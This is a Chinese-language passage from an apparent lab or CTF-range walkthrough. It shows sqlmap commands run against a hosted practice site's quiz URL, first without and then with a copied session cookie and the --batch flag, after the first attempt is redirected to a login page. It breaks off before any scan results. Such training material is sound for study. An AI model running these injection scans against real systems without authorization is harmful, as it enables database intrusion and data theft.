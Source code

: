 ![image-20230615212819038](%E9%9D%B6%E5%9C%BA.assets/image-20230615212819038.png)



### 使用sqlmap

#### 1)使用sqlmap检测是否存在注入点

> python sqlmap.py -u  "http://eci-2zej8e2hn3s4jczjydgi.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141b8009cf0&n=1&t=10"

![img](%E9%9D%B6%E5%9C%BA.assets/1686100812_647fdb4c84ede3298da3e.png!small)

可以看到对获取到的url进行检测后，会302重定向到登录的url，说明我们检测的url必须带有登录权限才能验证，因此我们的命令中需要带上登录dvwa后的cookie信息。

在谷歌浏览器中贴上对应的cookie。

![img](%E9%9D%B6%E5%9C%BA.assets/1686100836_647fdb641ad85c1159494.png!small)

（注：u代表url ，--batch指的是sqlmap不会询问你的输入,全部默认确定。每个人都cookie都是不太一样的）

> python sqlmap.py -u  "http://eci-2zej8e2hn3s4jczjydgi.cloudecil.ichunqiu.com/welcome.php?q=quiz&step=2&eid =5b141b8009cf0&n=1&t=10"  --cookie="td_cookie=640699955;PHPSESSID=3qfukj93lq669vqf1idmnb5qnn"  --batch
